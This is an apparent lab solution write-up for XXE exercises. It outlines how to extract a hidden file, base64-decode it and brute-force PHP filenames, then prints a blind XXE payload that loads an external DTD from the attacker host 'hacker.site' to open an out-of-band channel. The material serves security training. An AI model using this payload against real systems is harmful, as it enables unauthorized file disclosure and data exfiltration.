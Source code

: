 ### Solutions - Lab #5

In a folder full of files, there is a special one...:

*Wheres the hidden file?*

Exploitation steps

The solution within basexml.php.
```bash
Part 1

- Download the base64 encoded the content of .letmepass.
- Extract the content from the result.
- Remove the JSON escaping characters.
- Base64 decode and store result within a file.
```

Part 2
```bash
- Download a list of common PHP file names; this is a good resource: Filenames_PHP_Common.wordlist @ (http://blog.thireus.com/web-common-directories-and-filenames-word-lists-collection)
- Automate the retrieving process:
- Similar to Part 1
- Parse result and show the good file that contains the tag .
```

Testing command:

Part 1

Extract instructions from .letmepass:
```bash
./exploit.sh /var/www/5/.letmepass
```

Part 2
```bash
./file_extractor.sh /var/www/5/hidden/
```

### Solutions - Lab #6

Blind XXE here. IT requires some OOB exploitations:

*Get out of here!!*
Exploitation steps

The solution is within .letmepass.php; this is a blind XXE exploitation, so you need to set up an OOB channel.

Here are the steps:

Craft the XML payload moving the external entity definitions in another DTD file (evil_oob.dtd)
```xml
<?xml version='1.0'?>
<!DOCTYPE xxe [
    <!ENTITY % EvilDTD SYSTEM 'http://hacker.site/evil_oob.dtd'>
    %EvilDTD;
    %LoadOOBEnt;
    %OOB;
]>
<login>
    <username>XXEME</username>
    <password>password</password>
</login>
```
